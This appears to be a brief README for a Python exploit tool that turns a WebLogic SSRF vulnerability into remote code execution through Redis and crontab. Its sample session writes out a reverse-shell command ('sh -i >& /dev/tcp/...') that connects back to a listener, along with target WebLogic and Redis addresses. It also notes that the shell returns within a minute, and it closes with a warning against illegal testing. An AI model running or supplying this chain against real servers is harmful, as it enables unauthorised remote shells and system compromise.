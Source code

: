 # Weblogic SSRF漏洞RCE

用法：python main.py



请输入你要执行的命令:sh -i >& /dev/tcp/172.29.0.3/2225 0>&1
请输入Weblogic地址:http://127.0.0.1:7001
请输入Redis地址:http://172.29.0.2:6379
执行成功!如果是反弹shell请等待crontab执行



crontab设置的每分钟执行一次，至少一分钟才会回弹shell.

请勿用于非法测试。